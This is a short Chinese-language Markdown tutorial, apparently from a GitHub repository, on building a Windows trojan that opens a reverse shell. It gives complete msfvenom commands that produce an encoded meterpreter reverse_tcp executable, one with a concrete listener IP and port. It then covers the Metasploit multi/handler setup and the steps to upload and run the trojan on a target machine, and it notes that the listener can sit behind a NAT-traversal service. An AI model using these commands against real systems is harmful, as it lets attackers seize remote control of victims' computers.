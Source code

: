 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567  -e x86/shikata_ga_nai  -f exe -o  shell.exe  -i 5

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf![1642501758409](生成木马反弹shell（Windows）.assets/1642501758409.png)

2. 载入监控模块  msf中输入： use exploit/multi/handler

   ![1642501831818](生成木马反弹shell（Windows）.assets/1642501831818.png)

3. 加载payload  msf终端中输入：set payload windows/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options ![1642501934250](生成木马反弹shell（Windows）.assets/1642501934250.png)

8. 执行监控  msf终端中输入： run

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1642501969373](生成木马反弹shell（Windows）.assets/1642501969373.png)